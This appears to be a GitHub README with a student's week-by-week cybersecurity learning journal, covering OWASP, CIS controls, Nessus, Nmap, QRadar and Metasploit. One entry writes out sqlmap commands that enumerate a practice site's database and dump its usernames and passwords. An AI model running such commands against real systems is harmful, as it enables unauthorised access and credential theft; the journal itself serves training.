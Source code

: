 day-day Journal

--------------------------Week-1--------------------------<br>
<22 August> 10 Hackers and their accomplishments. <br>
<23 August> what vulnerabilities are available for a perticular port.<br>
<24 August> OWASP top 5 vulnerabilities and test it on a website.<br>
<25 August> How Servers Work understanding web app attack what is a attack? Plot vulnerabilities other than OWASP top 10<br>
<26-27 Aug> Exploit OWASP top 10<br>
--------------------------Week-2--------------------------<br>
<28 August> 10 web Server Attacks<br>
<29 August> 
Inventory and Control of Hardware Assets
Inventory and Control of Software Assets
Continuous Vulnerability Management
Controlled Use of Administrative Privileges
Secure Configuration for Hardware and Software on Mobile Devices, Laptops, Workstations and Servers
Maintenance, Monitoring and Analysis of Audit Logs Foundational
Email and Web Browser Protections
Malware Defenses
Limitation and Control of Network Ports, Protocols, and Services
Data Recovery Capabilities
Secure Configuration for Network Devices, such as Firewalls, Routers and Switches
Boundary Defense
Data Protection
Controlled Access Based on the Need to Know
Wireless Access Control
Account Monitoring and Control Organizational
Implement a Security Awareness and Training Program
Application Software Security
Incident Response and Management
Penetration Tests and Red Team Exercises<br>
<30 August> Understanding CIS Policy version 7and write about them<br>
<31 August> OFF DAY<br>
<1 September> Passive Reconnisence of a website without pinging it. What is OSNIT framework?<br>
<2-3 September> Use 10 tools on kali available in the menu section.<br>
--------------------------Week-3--------------------------<br>
<4 September> Scan any website to check the vulnerabilities in the website using nessus and make a report on it<br>
<5 September> Explore cheatsheet commands(Go through Nmap) and memorize the port nos<br>
<6 September> OFF DAY<br>
<7 September><br>
<8 September> sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -dbs | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart --tables | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users --columns | sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C uname --dump
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C pass --dump  [vulweb using sqlmap]<br>
<9-10 September> <br>
--------------------------Week-4--------------------------<br>
<11 September> Doccumntation on What is Syn and SEIM.<br>
<12 September> Doccumentation on What is wincollect and StandAlone winollect<br>
<13 September> pick 4-5 logs from ibm qradar and doccument business impact. What is Local Security Policy in windows.<br>
<14 September> 3 Vulnerabilities exploitaion on metasploit<br>
<15 September> Doccumentation on burpsuit<br>

